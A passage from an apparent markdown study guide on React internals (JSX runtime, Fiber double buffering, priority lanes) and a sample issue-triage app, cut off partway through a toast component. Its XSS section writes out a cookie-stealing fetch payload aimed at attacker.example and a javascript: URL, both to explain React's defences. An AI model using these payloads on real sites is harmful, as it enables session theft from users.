




---
tags:
  - programming
  - frontend
  - react
  - react-19
  - fiber
  - concurrency
  - state-management
  - testing
created: 2025-12-29
updated: 2026-11-13
status: 🟢
level: mid-to-senior
---
# React Complete Guide

> [!abstract] Core Invariant
> React models user interfaces as a pure function of state (`UI = f(state)`), executed incrementally over a double-buffered **Fiber tree** across an interruptible **Render Phase** (diffing elements and scheduling 31-bit priority lanes) and a synchronous, uninterruptible **Commit Phase** (applying minimal host DOM mutations).

---

## 1. First-Principles Mechanics & Complete Architecture

### 1.1 Declarative UI, JSX Compilation & Element Security

Traditional imperative DOM manipulation (`document.createElement`, `element.appendChild`, `classList.toggle`, `textContent = ...`) mutates a shared stateful tree in place across scattered event callbacks. For an interface with $N$ independent state variables, the number of state-to-state transition edges grows quadratically ($O(N^2)$). Any missed DOM patch leaves stale text, mismatched disabled attributes, or leaked event listeners across transitions.

React eliminates explicit transition patching by computing a fresh declarative description of the entire target UI from the current state snapshot (`UI = f(state)`) on every update, then computing and committing only the minimal delta between the previous description and the next description.

#### Automatic JSX Runtime & Compiler AST Output

JSX is syntax sugar compiled away during build time by Babel, SWC, or TypeScript (`"jsx": "react-jsx"` in `tsconfig.json`). Prior to React 17, JSX lowered to `React.createElement(type, config, ...children)`, forcing every component module to keep `import React from 'react'` in scope and allocating a props object on every call while passing `children` as variadic arguments.

Modern React uses the **Automatic JSX Runtime** (`react/jsx-runtime`), which inserts imports automatically and separates `key` from `props` at compile time:

```tsx
// Author-written TSX
function ActionBar({ itemId, onSave }: { itemId: string; onSave: () => void }) {
  return (
    <div className="toolbar" key={itemId}>
      <span className="label">Draft</span>
      <button type="button" onClick={onSave}>
        Save
      </button>
    </div>
  );
}
```

SWC/Babel lowers this component into the following JavaScript AST output:

```javascript
import { jsx as _jsx, jsxs as _jsxs } from "react/jsx-runtime";

function ActionBar({ itemId, onSave }) {
  return _jsxs("div", {
    className: "toolbar",
    children: [
      _jsx("span", { className: "label", children: "Draft" }),
      _jsx("button", { type: "button", onClick: onSave, children: "Save" })
    ]
  }, itemId);
}
```

Key structural facts about `_jsx` and `_jsxs`:
1. **`_jsx` vs `_jsxs`**: `_jsxs` signals to React's reconciler that `children` is a **static compile-time array** whose length and positions are fixed by JSX syntax—meaning React does not warn about missing `key` attributes on sibling elements inside `<div><span>...</span><button>...</button></div>`. Dynamic `.map()` arrays pass through `_jsx` as runtime arrays and *do* require explicit `key` props.
2. **Third Argument `key`**: `key` is hoisted out of `props` into the third positional parameter of `_jsx(type, props, key)`. Accessing `props.key` inside a component yields `undefined`.
3. **React 19 `ref` as a Standard Prop**: In React 18 and earlier, `ref` was stripped out alongside `key` before reaching `props`, forcing library authors to wrap function components in `React.forwardRef((props, ref) => ...)`. In **React 19**, `ref` remains inside `props` (`{ ref, ...rest }`), making `forwardRef` unnecessary for all new code.

#### `ReactElement` Anatomy & `$$typeof` XSS Protection

Calling `_jsx(...)` allocates a lightweight plain JavaScript object (a **Virtual DOM node** / `ReactElement`):

```typescript
const elementSnapshot = {
  $$typeof: Symbol.for('react.transitional.element'), // React 18 used Symbol.for('react.element')
  type: 'button', // string for host DOM tags; function/class/Symbol for React types
  key: null,
  props: {
    type: 'button',
    onClick: onSave,
    children: 'Save',
    ref: undefined,
  },
};
```

The `$$typeof` property enforces a strict security boundary against **stored JSON object injection XSS**. Suppose an application has an interpolation bug (`<div>{userProfile.bio}</div>`) and an attacker tricks a compromised API or unvalidated JSON parser into returning a fake `ReactElement` object instead of a string:

```json
{
  "type": "script",
  "props": {
    "dangerouslySetInnerHTML": {
      "__html": "fetch('https://attacker.example/?c=' + document.cookie)"
    }
  }
}
```

Because JSON (`JSON.parse`) can only represent strings, numbers, booleans, arrays, plain objects, and `null`, it **cannot serialize or instantiate a JavaScript `Symbol`**. When React's reconciler inspects a child object via `isValidElement`, it verifies `object.$$typeof === REACT_ELEMENT_TYPE` (`Symbol.for('react.transitional.element')` in React 19). The forged JSON object lacks the non-serializable `Symbol` and is rejected with an invalid child error rather than rendered as a `<script>` tag.

> [!warning] XSS Vectors React Does NOT Neutralize Automatically
> `$$typeof` only blocks object-literal element spoofing. Two major XSS surfaces remain open if developers pass untrusted input:
> 1. **`dangerouslySetInnerHTML={{ __html: untrustedHtml }}`**: Bypasses React text escaping and writes directly to `element.innerHTML`. Always sanitize HTML with an allowlist sanitizer such as `DOMPurify.sanitize(html)` before passing it.
> 2. **`javascript:` URL Injection**: Rendering `<a href={userWebsite}>` or `<iframe src={userUrl}>` allows `javascript:alert(document.cookie)` unless validated against an explicit protocol allowlist (`new URL(input).protocol` in `['https:', 'http:', 'mailto:']`). React 19 emits an error and blocks `javascript:` URLs in certain contexts, yet explicit URL protocol validation remains mandatory on both server and client.

#### JSX vs HTML Differences & Expression Semantics

Because JSX compiles into JavaScript object properties and DOM property assignments rather than HTML markup strings, several differences apply:

| Construct | HTML Attribute | React JSX Prop | Runtime Reason |
|---|---|---|---|
| CSS class | `class="btn"` | `className="btn"` | `class` is a JS reserved word; maps to `DOMElement.className` |
| Label target | `for="email"` | `htmlFor="email"` | `for` is a JS reserved word; maps to `HTMLLabelElement.htmlFor` |
| Inline style | `style="color: red; font-size: 14px"` | `style={{ color: 'red', fontSize: 14 }}` | Accepts a JS object matching `CSSStyleDeclaration` camelCase keys; unitless numbers auto-append `px` for dimensional properties (`fontSize`, `margin`, `width`) while keeping unitless properties raw (`opacity`, `zIndex`, `lineHeight`, `flexGrow`) |
| Default input value | `value="abc"` | `defaultValue="abc"` vs `value={state}` | HTML `value` sets initial DOM attribute; React `value` locks the DOM property to React state |
| Self-closing tags | `<input>` / `<br>` | `<input />` / `<br />` | JSX parser requires explicit closing slash on every void element |
| Boolean/nullish values | Ignored | `true`, `false`, `null`, `undefined` render nothing | **Trap**: `0` and `NaN` ARE rendered as text nodes (`"0"`, `"NaN"`). Writing `{items.length && <List />}` renders a stray `0` when `items` is empty—always write `{items.length > 0 && <List />}` or a ternary |
| Attribute casing | `tabindex`, `readonly`, `maxlength` | `tabIndex`, `readOnly`, `maxLength` | Matches DOM IDL property names (`aria-*` and `data-*` remain lowercase hyphenated per HTML spec) |

---

### 1.2 Virtual DOM vs Direct DOM & React Fiber Double Buffering

Calling JSX components generates ephemeral `ReactElement` trees on every render. Creating `ReactElement` plain objects costs microseconds, whereas creating or mutating live browser `HTMLElement` nodes triggers CSS selector matching, style recalculation, layout reflow, and compositor layer invalidation.

However, the Virtual DOM itself is merely a **description**. Prior to React 16, the **Stack Reconciler** walked the Virtual DOM recursively on the JavaScript call stack. If a tree contained 4,000 components taking 65ms to reconcile, the main thread stayed locked for 65ms—dropping 4 frames at 60Hz (16.67ms/frame) or 8 frames at 120Hz (8.33ms/frame) and blocking typing, clicks, and CSS animations until recursion unwound.

React 16+ replaced recursion with **React Fiber**: an incremental, heap-allocated tree of work units linked via pointers so React can pause work after a ~5ms scheduler timeslice (`MessageChannel`), yield control back to the browser for input/paint, and resume or discard the incomplete work tree without corrupting the JavaScript call stack.

#### `FiberNode` Memory Layout

Each rendered React element, component, portal, or Suspense boundary owns a persistent `FiberNode` object on the JS heap:

| Fiber Field | Type / Value | Role in Reconciler & Scheduler |
|---|---|---|
| `tag` | Integer enum (`FunctionComponent = 0`, `HostComponent = 5`, `HostText = 6`, `SuspenseComponent = 13`) | Selects execution path inside `beginWork` and `completeWork` |
| `type` / `key` | Function ref or `'div'` + reconciliation string/number | Identity tuple `(key, type)` used to decide reuse vs unmount |
| `stateNode` | Live `HTMLElement`, `Text` node, `FiberRootNode`, or class instance | Host reference touched during Commit phase |
| `child` / `sibling` / `return` | `FiberNode \| null` | Singly-linked tree pointers enabling iterative depth-first traversal (`child` first, then `sibling`, then `return` to parent) |
| `pendingProps` / `memoizedProps` | `Record<string, unknown>` | Incoming props for current render vs props from last committed render (`Object.is` fast bailout check) |
| `memoizedState` | `Hook \| any \| null` | Head pointer of the component's Hooks singly-linked list (see [[Programming/Frontend/React Hooks Guide\|React Hooks Guide]]) |
| `updateQueue` | Circular linked list | Pending `setState` updates or DOM attribute diff payload (`HostComponent`) |
| `flags` / `subtreeFlags` | 32-bit bitmask | Side-effect bits (`Placement`, `Update`, `ChildDeletion`, `Passive`, `LayoutStatic`). `subtreeFlags` bubbles dirty child bits up so Commit skips clean subtrees in $O(1)$ |
| `lanes` / `childLanes` | 31-bit priority bitmask | Tracks pending work priority on this Fiber and its entire subtree |
| `alternate` | `FiberNode \| null` | Pointer linking `current` Fiber to its `workInProgress` twin |

#### Double Buffering (`current` vs `workInProgress`)

React maintains two Fiber trees anchored to `FiberRootNode`:
1. **`current` tree**: Represents the committed UI visible on screen. React never mutates `current` nodes during an interruptible render.
2. **`workInProgress` (WIP) tree**: Built incrementally in memory during the Render Phase. Each WIP Fiber links to its `current` counterpart via `wip.alternate = current` and `current.alternate = wip`.
3. **Atomic Pointer Swap**: When the WIP tree finishes rendering and the Commit Phase updates the DOM, React performs a single atomic assignment: `fiberRoot.current = finishedWork`. On the *next* state update, the old `current` nodes are reused as the new `workInProgress` buffers via `alternate`, eliminating per-render Fiber object allocations once the component stabilizes.



---

### 1.3 Two-Phase Rendering Pipeline & Priority Lanes

Every React update traverses a strict two-phase execution pipeline separating pure computation from host mutation.



#### Phase 1: Render Phase (Pure, Interruptible, Restartable)

React's Scheduler schedules a macrotask via `MessageChannel` (not `setTimeout`, avoiding 4ms minimum clamping) and enters `workLoopConcurrent` (or `workLoopSync` for urgent lanes). For each `workInProgress` Fiber:

1. **`beginWork(current, workInProgress, renderLanes)`**:
   - Checks bailout conditions: if `oldProps === newProps` (`Object.is`), context did not change, and `!includesSomeLane(workInProgress.lanes, renderLanes)`, React skips invoking the component function entirely. If `childLanes` also shows zero pending work in descendants, the entire subtree is cloned/skipped in $O(1)$.
   - Otherwise, invokes the function component (running hooks), or constructs host configuration, then calls `reconcileChildren` to compare returned `ReactElement`s against `current.child` Fibers, creating/reusing child WIP Fibers and tagging `Placement` or `ChildDeletion` flags.
   - Advances cursor to `workInProgress.child`.
2. **`completeWork(current, workInProgress, renderLanes)`**:
   - Runs when traversal reaches a leaf (`child === null`) and walks `sibling` or returns up via `return`.
   - For `HostComponent` (`'div'`, `'button'`): on mount, calls `document.createElement` and appends already-completed child DOM nodes to the detached off-screen DOM node (`appendAllChildren`). On update, diffs `oldProps` vs `newProps` and marks `Update` flag if attributes changed.
   - Bubbles `subtreeFlags` and `childLanes` upward to the parent Fiber so Commit knows which branches hold DOM edits or effects.

Because `workLoopConcurrent` checks `shouldYield()` every ~5ms, React can abort or pause a low-priority `workInProgress` tree mid-way if a user clicks a button or types in an input (`SyncLane`). This is why **render functions must be strictly pure**: calling `fetch`, mutating module globals, writing `localStorage`, or pushing to external arrays inside render leaks duplicate side effects whenever React yields, aborts, and restarts a Fiber pass.

#### Phase 2: Commit Phase (Synchronous, Uninterruptible)

Once `finishedWork` is ready, React enters `commitRoot`, which **never yields** until complete so the user never observes half-updated DOM states:

1. **BeforeMutation Sub-phase**: Runs `getSnapshotBeforeUpdate` on legacy class components (reading pre-mutation scroll offsets) and schedules asynchronous passive effects (`useEffect`) via the Scheduler.
2. **Mutation Sub-phase**:
   - Executes `useInsertionEffect` cleanups and setups (used by CSS-in-JS libraries to inject `<style>` rules *before* any DOM edits or measurements occur).
   - Walks `subtreeFlags` to perform live DOM edits (`appendChild`, `insertBefore`, `removeChild`, `setAttribute`, `nodeValue`).
   - Runs `useLayoutEffect` cleanup functions for unmounted or re-run layout effects.
   - Detaches old `ref`s (`ref(null)` or React 19 ref cleanup functions).
   - Flips `fiberRoot.current = finishedWork`.
3. **Layout Sub-phase**:
   - Attaches new `ref` values (`ref.current = domNode` or invokes callback refs).
   - Executes `useLayoutEffect` setup functions synchronously. Any `setState` triggered inside `useLayoutEffect` flushes synchronously *before* the browser is permitted to paint the frame.
4. **Browser Paint**: The browser composites and paints the updated DOM tree to screen.
5. **Passive Effects Sub-phase (Post-Paint)**: On the next task tick after paint, React flushes `useEffect` cleanups followed by `useEffect` setups asynchronously so data fetching and subscriptions do not delay frame presentation.

#### 31-Bit Priority Lanes & Update Rebasing

React encodes work priorities in a 31-bit integer bitmask (`Lanes`) rather than a single scalar priority, allowing bitwise union (`a | b`), intersection (`a & b`), and subset checks in constant CPU instructions:

| Lane | Priority | Trigger Origin | Scheduler Behavior |
|---|---|---|---|
| `SyncLane` (`0b...10`) | Highest | Click, keydown, submit, `focus`, `flushSync` | Flushes synchronously at end of current event/microtask without yielding |
| `InputContinuousLane` | High | `mousemove`, `scroll`, `drag`, `wheel`, `pointermove` | High-priority continuous updates; prevents scroll/drag stutter |
| `DefaultLane` | Normal | `fetch` callbacks, `setTimeout`, async `await` continuations | Time-sliced concurrent rendering (~5ms chunks) |
| `TransitionLane1..16` | Low (16 bits) | `startTransition`, `useTransition`, `useDeferredValue` | Yieldable; discarded and restarted cleanly if preempted by `SyncLane` or newer transition |
| `OffscreenLane` / `IdleLane` | Lowest | Hidden `<Activity>` / offscreen pre-render | Executes only when main thread is idle |

**Rebasing Invariant (`baseQueue`)**: Suppose a slow `TransitionLane` update ($U_1$) yields after 5ms, and the user immediately clicks a button triggering a high-priority `SyncLane` update ($U_2$) on the same state hook. React processes only $U_2$ synchronously while keeping $U_1$ anchored in `hook.baseQueue`. When the `TransitionLane` later resumes, React replays $U_1$ followed by $U_2$ in strict causal order against `baseState` so the urgent click update is never overwritten by the slower transition.

#### Automatic Batching, `flushSync`, `startTransition`, `useDeferredValue` & Tearing

- **Automatic Batching**: In React 17, updates inside native `setTimeout`, `fetch().then`, or `addEventListener` flushed one synchronous re-render *per `setState` call*. Since React 18/19, `createRoot` batches **all** updates triggered within the same event handler, microtask, Promise continuation, or timer tick into a single render pass.
- **`flushSync` Opt-Out**: Forces React to flush the DOM commit synchronously before `flushSync` returns—used strictly when imperative DOM measurement must read newly committed DOM layout (e.g., scrolling to the bottom of a newly appended chat message):

```tsx
import { useRef, useState } from 'react';
import { flushSync } from 'react-dom';

export function ChatLog() {
  const [messages, setMessages] = useState<string[]>([]);
  const listRef = useRef<HTMLUListElement>(null);

  function addMessage(text: string) {
    flushSync(() => {
      setMessages((prev) => [...prev, text]);
    });
    // Guaranteed: new <li> is already committed to the DOM
    if (listRef.current) {
      listRef.current.scrollTop = listRef.current.scrollHeight;
    }
  }

  return (
    <div>
      <button type="button" onClick={() => addMessage(`Ping ${Date.now()}`)}>
        Append
      </button>
      <ul ref={listRef} style={{ maxHeight: 200, overflowY: 'auto' }}>
        {messages.map((msg, i) => (
          <li key={`${msg}-${i}`}>{msg}</li>
        ))}
      </ul>
    </div>
  );
}
```

- **`startTransition` vs `useDeferredValue`**:
  - Use **`startTransition` / `useTransition`** when you *trigger* the non-urgent state setter (`startTransition(() => setActiveTab('analytics'))`). `useTransition` exposes `isPending` so you can dim stale tabs without unmounting visible content into a `<Suspense>` spinner.
  - Use **`useDeferredValue(value, initialValue?)`** when you *receive* a rapidly changing value (such as text from a controlled `<input>`) and pass a lagging version to an expensive memoized child. **Never wrap controlled `<input>` text state inside `startTransition`**—controlled inputs must commit on `SyncLane` every keystroke or cursor positions jump backward as transitions yield.

```tsx
import { memo, useDeferredValue, useMemo, useState } from 'react';

interface MetricRow {
  id: string;
  endpoint: string;
  latencyMs: number;
}

// React.memo is required so urgent SyncLane keystrokes skip re-rendering HeavyEndpointTable
const HeavyEndpointTable = memo(function HeavyEndpointTable({
  rows,
  query,
}: {
  rows: MetricRow[];
  query: string;
}) {
  const filtered = useMemo(() => {
    const normalized = query.trim().toLowerCase();
    return normalized
      ? rows.filter((r) => r.endpoint.toLowerCase().includes(normalized))
      : rows;
  }, [rows, query]);

  return (
    <ul>
      {filtered.slice(0, 400).map((row) => (
        <li key={row.id}>
          {row.endpoint} ({row.latencyMs}ms)
        </li>
      ))}
    </ul>
  );
});

export function MetricsExplorer({ rows }: { rows: MetricRow[] }) {
  const [query, setQuery] = useState(''); // Urgent SyncLane for responsive typing
  const deferredQuery = useDeferredValue(query); // Background TransitionLane
  const isStale = query !== deferredQuery;

  return (
    <section>
      <input
        type="search"
        aria-label="Filter endpoints"
        value={query}
        onChange={(e) => setQuery(e.target.value)}
      />
      <div style={{ opacity: isStale ? 0.65 : 1, transition: 'opacity 120ms' }}>
        <HeavyEndpointTable rows={rows} query={deferredQuery} />
      </div>
    </section>
  );
}
```

> [!danger] Concurrent Tearing Risk on External Mutable Globals
> Because concurrent rendering yields between Fiber nodes every ~5ms, any component tree reading an external mutable variable directly during render (`const theme = window.appStore.theme`) can read `"light"` in Component A, yield to a browser event that mutates `window.appStore.theme = "dark"`, and then read `"dark"` in Component B within the same render pass—producing visually inconsistent UI (**tearing**). Always connect external mutable stores through `useSyncExternalStore` (see [[Programming/Frontend/React Hooks Guide|React Hooks Guide]]).

---

## 2. Real-World Use Cases & Decision Matrix

Choosing React and choosing the right React rendering/state topology depend on interactivity density, SEO requirements, bundle budget, and state mutation frequency.

### Architectural Decision Matrix

| Scenario | Recommended Stack | Alternative Stack | When to Avoid React / Default Pattern |
|---|---|---|---|
| **Rich Authenticated SaaS Workspace** (IDEs, admin consoles, Jira-like boards, collaborative editors) | React 19 + TypeScript + Vite + TanStack Query + Router | SvelteKit / SolidJS | Avoid Redux for server API caches; use TanStack Query so caching/dedup/invalidation are automated |
| **SEO-Critical Storefront, Marketing, or SaaS Landing + App** | Next.js App Router (RSC + SSR + Client Islands) | Astro (Zero-JS static islands) | Avoid pure client-side Vite SPA when cold-start LCP and crawler HTML indexing drive revenue (see [[Programming/Frontend/Next.js Complete Guide\|Next.js Complete Guide]]) |
| **Content-Only Blog / Static Documentation Site** | Astro + Markdown/MDX + minimal interactive islands | Hugo / Eleventy / Vanilla HTML | **Do NOT use a full React SPA**—shipping 45KB+ gzipped React runtime + hydration JS to render static text degrades LCP and INP unnecessarily |
| **60fps Canvas / Spatial CAD / Massive Game Loops** | HTML5 `<canvas>` / WebGL / PixiJS managed via `useRef` + `requestAnimationFrame` | Standalone WebGL engine | **Do NOT represent 10,000 animated particles or SVG nodes as React Elements**—Fiber reconciliation cannot outrun GPU-batched canvas draws at 16ms frame budgets |
| **Large Tabular Data (10,000–200,000 Rows)** | React 19 + `@tanstack/react-virtual` + `useDeferredValue` | AG Grid / Canvas Grid | Never mount 50,000 DOM `<tr>` nodes directly in JSX (see [[Programming/Frontend/React Patterns Guide\|React Patterns Guide]]) |
| **Embeddable Third-Party Widget on Host CMS Sites** | Vanilla TypeScript / Preact / Web Components | React 19 isolated ShadowRoot mount | Avoid React when multiple independent widgets load onto unknown third-party pages with strict `<10KB` bundle budgets |

### State Placement Decision Rules



1. **Can it be derived during render?** Compute it inline (`const fullName = `${first} ${last}``)—zero state hooks, zero sync effects.
2. **Should refreshing the page or sharing the link preserve it?** Store it in the URL (`searchParams`), such as pagination offset, active sort column, search query, or tab ID.
3. **Is a remote server the source of truth?** Store it in **TanStack Query** (client SPAs) or **React Server Components** (Next.js), never copied manually into Context or Redux.
4. **Does it belong exclusively to one widget or subtree?** Colocate `useState` or `useReducer` inside the lowest common ancestor.
5. **Do distant unrelated routes need low-frequency UI state (theme, auth session, toast queue)?** Use **Split Context** (separating state from stable actions).
6. **Do dozens of components subscribe to rapid independent slices (selection boxes, drag coordinates, streaming telemetry)?** Use an external store with selector equality (`Zustand` via `useSyncExternalStore`).

---

## 3. Step-by-Step Practical Application: Production Issue Triage Workspace

This complete multi-file Vite + React 19 + TypeScript workspace implements production-grade patterns end-to-end: Zod validation, accessible forms (`FormData` + controlled inputs + ARIA announcements), TanStack Query optimistic mutations with rollback, accessible `createPortal` confirmation dialogs with focus restoration, React 19 `ref`-as-prop components, `ErrorBoundary` telemetry, and Vitest + React Testing Library + MSW behavioral tests.

### Project Directory Layout

```text
issue-triage-app/
  package.json
  tsconfig.json
  src/
    main.tsx
    App.tsx
    types/
      issue.ts
    schemas/
      issueSchema.ts
    api/
      issuesClient.ts
    hooks/
      useIssues.ts
    context/
      ToastContext.tsx
    components/
      TextInput.tsx
      ErrorFallback.tsx
      ConfirmModal.tsx
      IssueForm.tsx
      IssueList.tsx
      __tests__/
        IssueWorkspace.test.tsx
```

### 3.1 Domain Types & Zod Runtime Schema

```typescript
// src/types/issue.ts
export type IssueSeverity = 'low' | 'medium' | 'critical';
export type IssueStatus = 'open' | 'triaged' | 'resolved';

export interface Issue {
  id: string;
  title: string;
  severity: IssueSeverity;
  status: IssueStatus;
  assigneeEmail: string;
  notifyWatchers: boolean;
  attachmentName: string | null;
  createdAt: string;
}

export interface CreateIssuePayload {
  title: string;
  severity: IssueSeverity;
  assigneeEmail: string;
  notifyWatchers: boolean;
  attachmentName: string | null;
}
```

```typescript
// src/schemas/issueSchema.ts
import { z } from 'zod';

export const createIssueSchema = z.object({
  title: z
    .string()
    .trim()
    .min(5, 'Title must contain at least 5 characters')
    .max(120, 'Title cannot exceed 120 characters'),
  severity: z.enum(['low', 'medium', 'critical'], {
    errorMap: () => ({ message: 'Select a valid severity level' }),
  }),
  assigneeEmail: z
    .string()
    .trim()
    .email('Enter a valid corporate email address'),
  notifyWatchers: z.boolean(),
  attachmentName: z.string().nullable(),
});

export type CreateIssueFormErrors = Partial<
  Record<keyof z.infer<typeof createIssueSchema>, string>
>;
```

### 3.2 HTTP API Client & TanStack Query Server Cache Hooks

```typescript
// src/api/issuesClient.ts
import type { CreateIssuePayload, Issue, IssueStatus } from '../types/issue';

export class HttpError extends Error {
  readonly status: number;
  constructor(status: number, message: string) {
    super(message);
    this.name = 'HttpError';
    this.status = status;
  }
}

export async function fetchIssues(signal?: AbortSignal): Promise<Issue[]> {
  const res = await fetch('/api/issues', { signal });
  if (!res.ok) throw new HttpError(res.status, `Failed to load issues (${res.status})`);
  return res.json() as Promise<Issue[]>;
}

export async function createIssue(payload: CreateIssuePayload): Promise<Issue> {
  const res = await fetch('/api/issues', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify(payload),
  });
  if (!res.ok) throw new HttpError(res.status, `Failed to create issue (${res.status})`);
  return res.json() as Promise<Issue>;
}

export async function updateIssueStatus(id: string, status: IssueStatus): Promise<Issue> {
  const res = await fetch(`/api/issues/${encodeURIComponent(id)}`, {
    method: 'PATCH',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ status }),
  });
  if (!res.ok) throw new HttpError(res.status, `Failed to update status (${res.status})`);
  return res.json() as Promise<Issue>;
}

export async function deleteIssue(id: string): Promise<void> {
  const res = await fetch(`/api/issues/${encodeURIComponent(id)}`, {
    method: 'DELETE',
  });
  if (!res.ok) throw new HttpError(res.status, `Failed to delete issue (${res.status})`);
}
```

```typescript
// src/hooks/useIssues.ts
import { useMutation, useQuery, useQueryClient } from '@tanstack/react-query';
import {
  createIssue,
  deleteIssue,
  fetchIssues,
  updateIssueStatus,
} from '../api/issuesClient';
import type { CreateIssuePayload, Issue, IssueStatus } from '../types/issue';

export const issueKeys = {
  all: ['issues'] as const,
  list: () => [...issueKeys.all, 'list'] as const,
};

export function useIssuesQuery() {
  return useQuery({
    queryKey: issueKeys.list(),
    queryFn: ({ signal }) => fetchIssues(signal),
    staleTime: 30_000, // Treat server data fresh for 30s without redundant refetches
    gcTime: 5 * 60_000, // Evict inactive cache entries after 5 minutes
  });
}

export function useCreateIssueMutation() {
  const queryClient = useQueryClient();

  return useMutation({
    mutationFn: (payload: CreateIssuePayload) => createIssue(payload),
    onMutate: async (newPayload) => {
      await queryClient.cancelQueries({ queryKey: issueKeys.list() });
      const previous = queryClient.getQueryData<Issue[]>(issueKeys.list());

      const optimisticIssue: Issue = {
        id: `temp-${crypto.randomUUID()}`,
        ...newPayload,
        status: 'open',
        createdAt: new Date().toISOString(),
      };

      queryClient.setQueryData<Issue[]>(issueKeys.list(), (old = []) => [
        optimisticIssue,
        ...old,
      ]);

      return { previous };
    },
    onError: (_err, _payload, context) => {
      if (context?.previous) {
        queryClient.setQueryData(issueKeys.list(), context.previous);
      }
    },
    onSettled: () => {
      void queryClient.invalidateQueries({ queryKey: issueKeys.list() });
    },
  });
}

export function useUpdateIssueStatusMutation() {
  const queryClient = useQueryClient();

  return useMutation({
    mutationFn: ({ id, status }: { id: string; status: IssueStatus }) =>
      updateIssueStatus(id, status),
    onMutate: async ({ id, status }) => {
      await queryClient.cancelQueries({ queryKey: issueKeys.list() });
      const previous = queryClient.getQueryData<Issue[]>(issueKeys.list());

      queryClient.setQueryData<Issue[]>(issueKeys.list(), (old = []) =>
        old.map((item) => (item.id === id ? { ...item, status } : item))
      );
      return { previous };
    },
    onError: (_err, _vars, context) => {
      if (context?.previous) {
        queryClient.setQueryData(issueKeys.list(), context.previous);
      }
    },
    onSettled: () => {
      void queryClient.invalidateQueries({ queryKey: issueKeys.list() });
    },
  });
}

export function useDeleteIssueMutation() {
  const queryClient = useQueryClient();

  return useMutation({
    mutationFn: (id: string) => deleteIssue(id),
    onMutate: async (id) => {
      await queryClient.cancelQueries({ queryKey: issueKeys.list() });
      const previous = queryClient.getQueryData<Issue[]>(issueKeys.list());
      queryClient.setQueryData<Issue[]>(issueKeys.list(), (old = []) =>
        old.filter((item) => item.id !== id)
      );
      return { previous };
    },
    onError: (_err, _id, context) => {
      if (context?.previous) {
        queryClient.setQueryData(issueKeys.list(), context.previous);
      }
    },
    onSettled: () => {
      void queryClient.invalidateQueries({ queryKey: issueKeys.list() });
    },
  });
}
```

### 3.3 Split Context Notification Store

```tsx
// src/context/ToastContext.tsx
import {
  createContext,
  useCallback,
  useContext,
  useState,
  type ReactNode,
} from 'react';

interface Toast {
  id: string;
  message: string;
  tone: 'info' | 'error';
}

interface ToastActions {
  pushToast: (message: string, tone?: 'info' | 'error') => void;
  dismissToast: (id: string) => void;
}

const ToastStateContext = createContext<Toast[]>([]);
const ToastActionsContext = createContext<ToastActions | null>(null);

export function ToastProvider({ children }: { children: ReactNode }) {
  const [toasts, setToasts] = useState<Toast[]>([]);

  const dismissToast = useCallback((id: string) => {
    setToasts((prev) => prev.filter((t) => t.id !== id));
  }, []);

  const pushToast = useCallback((message: string, tone: 'info' | 'error' = 'info') => {
    const id = crypto.randomUUID();
    setToasts((prev) => [...prev, { id, message, tone }]);
  }, []);

  // Stable action container: children calling pushToast NEVER re-render when toasts change
  const [actions] = useState<ToastActions>(() => ({ pushToast, dismissToast }));

  return (
    <ToastActionsContext.Provider value={actions}>
      <ToastStateContext.Provider value={toasts}>
        {children}
      </ToastStateContext.Provider>
    </ToastActionsContext.Provider>
  );
}

export function useToastActions(): ToastActions {
  const ctx = useContext(ToastActionsContext);
  if (!ctx) throw new Error('useToastActions must be used inside ToastProvider');
  return ctx;
}

export function ToastViewport() {
  const toasts = useContext(ToastStateContext);
  const { dismissToast } = useToastActions();

  if (toasts.length === 0) return null;

  return (
    <aside aria-live="polite" aria-label="Notifications" className="toast-viewport">
